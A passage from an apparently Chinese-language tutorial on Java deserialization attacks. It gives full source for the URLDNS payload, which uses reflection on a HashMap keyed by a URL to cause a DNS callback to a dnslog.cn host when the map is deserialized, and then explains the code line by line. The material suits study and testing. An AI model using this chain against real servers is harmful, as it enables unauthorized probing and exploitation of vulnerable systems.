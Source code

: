 

## 0x04 payload构造

```java
package com.company;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.net.URL;
import java.util.HashMap;

public class URLDNS {
    public static void main(String[] args) throws Exception {
        //0x01.生成payload
        //设置一个hashMap
        HashMap<URL, String> hashMap = new HashMap<URL, String>();
        //设置我们可以接受DNS查询的地址
        URL url = new URL("http://z2iif2.dnslog.cn");
        //将URL的hashCode字段设置为允许修改
        Field f = Class.forName("java.net.URL").getDeclaredField("hashCode");
        f.setAccessible(true);
        //**以下的蜜汁操作是为了不在put中触发URLDNS查询，如果不这么写就会触发两次（之后会解释）**
        //1. 设置url的hashCode字段为0xdeadbeef（随意的值）
        f.set(url, 0xdeadbeef);
        //2. 将url放入hashMap中，右边参数随便写
        hashMap.put(url, "rmb122");
        //修改url的hashCode字段为-1，为了触发DNS查询（之后会解释）
        f.set(url, -1);
        //0x02.写入文件模拟网络传输
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("out.bin"));
        oos.writeObject(hashMap);
        //0x03.读取文件，进行反序列化触发payload
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream("out.bin"));
        ois.readObject();
    }
}
```

大体来分析payload构造流程，

`Field f = Class.forName("java.net.URL").getDeclaredField("hashCode");`

getDeclaredField获取一个类本身（不包括父类）所有属性，  f.setAccessible(true);将字段设置为允许修改。

其中：

```java
f.set(url, 0xdeadbeef);
hashMap.put(url, "rmb122");
f.set(url, -1);
```
